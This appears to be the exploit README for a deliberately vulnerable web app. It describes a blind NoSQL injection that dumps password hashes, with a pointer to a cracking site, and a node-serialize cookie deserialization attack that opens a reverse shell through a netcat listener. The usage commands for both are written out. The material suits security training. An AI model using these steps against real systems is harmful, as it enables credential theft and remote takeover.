 # Exploits

## Blind NoSQL Injection (Auth Bypass)
The `username` parameter in `POST /register` is subject to blind NoSQL injection. We can leverage this to dump the SHA-256 password hashes of any user in the database.

- PoC: `dumpPasswordHash.py`
- Usage: `python3 dumpPasswordHash.py ip:3000 user`

The passwords used in this app are weak on purpose, any the hashes can be looked up using a site such as https://crackstation.net/

## Deserialization (RCE)
The draft feature uses a vulnerable node package (`node-serialize`), which is vulnerable to arbitrary code execution.

- PoC: `deserialize.py`
- Usage: 
  1. `python3 deserialize.py attackip attackerport` and copy the output
  2. Set up a netcat listener locally: `nc -nvlp attackerport`
  3. Create / edit the `draft` cookie, set the contents the the output we just copied (**Make sure there are no trailing whitespace characters**)
  4. Reload the home page / Log in
  5. The site will deserialize the cookie and set the message input box to the contents of `.msg`, subsequently running our reverse shell at the same time